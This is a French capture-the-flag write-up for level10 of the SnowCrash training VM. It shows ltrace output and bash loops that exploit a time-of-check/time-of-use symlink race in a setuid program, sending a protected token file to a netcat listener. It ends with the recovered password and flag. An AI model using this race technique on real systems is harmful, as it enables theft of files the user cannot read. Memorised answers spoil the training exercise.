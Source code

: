 # LEVEL 10

- On check ce qu'il y a: `ls -l`
```
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

- `ltrace ./level10` : \
```
__libc_start_main(0x80486d4, 1, 0xbffff6e4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
	sends file to host if you have access to it
) = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Meme soucis que l'exo precedent, can't ltrace

- `./level10 token` :
```
./level10 file host
	sends file to host if you have access to it
```
- On essaye de lancer la commande avec le usage indiqué:
- `ltrace ./level10 /var/crash/test 0.0.0.0` \
On voit que le programme essaye de se connecter un host au port 6969, et que ca crash \
- On ouvre donc un autre terminal (toujours en ssh dans la VM) et on lance : \
`nc -l 6969` \
- On relance en parralle l'autre commande et ca donne, en simultané:
```
level10@SnowCrash:~$ ltrace ./level10 /var/crash/test 0.0.0.0
__libc_start_main(0x80486d4, 3, 0xbffff6d4, 0x8048970, 0x80489e0 <unfinished ...>
access("/var/crash/test", 4)                              = 0
printf("Connecting to %s:6969 .. ", "0.0.0.0")            = 30
fflush(0xb7fd1a20Connecting to 0.0.0.0:6969 .. )                                        = 0
socket(2, 1, 0)                                           = 3
inet_addr("0.0.0.0")                                      = NULL
htons(6969, 1, 0, 0, 0)                                   = 14619
connect(3, 0xbffff61c, 16, 0, 0)                          = 0
write(3, ".*( )*.\n", 8)                                  = 8
printf("Connected!\nSending file .. "Connected!
)                    = 27
fflush(0xb7fd1a20Sending file .. )                                        = 0
open("/var/crash/test", 0, 010)                           = 4
read(4, "yooooo\n", 4096)                                 = 7
write(3, "yooooo\n", 7)                                   = 7
puts("wrote file!"wrote file!
)                                       = 12
+++ exited (status 12) +++
```
```
level10@SnowCrash:~$ nc -l 6969
.*( )*.
lol
```

On voit qu'au tout debut, le programme check les acces au fichier qu'on lui donne, si c'est ok, il fait pleins de trucs, puis il imprime le contenu du fichier.
On se dit que si entre le moment ou il check les permission et le moment ou il print le contenu, ya moyen de bidouiller quelque chose: \
On voudrait qu'il check les permissions d'un fichier auquel on a acces, mais qu'il affiche le contenu du token surlequel nous n'avons pas les droits... \
On va exploiter cette `race condition` avec trois boucles while:

```bash
while ((1))
    do nc -l 6969
done
```

```bash
while ((1))
    do
        touch /var/crash/tmp
        rm /var/crash/tmp
        ln -s /home/user/level10/token /var/crash/tmp
        rm /var/crash/tmp
done
```

```bash
while ((1))
    do ./level10 /var/crash/tmp 0.0.0.0
done
```

- WE GET `woupa2yuojeeaaed06riuj63c`
```bash
level10@SnowCrash:~$ su flag10
Password:
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## 🔥 Password
`woupa2yuojeeaaed06riuj63c`

## ⚡ Flag
`feulo4b72j7edeahuete3no7c`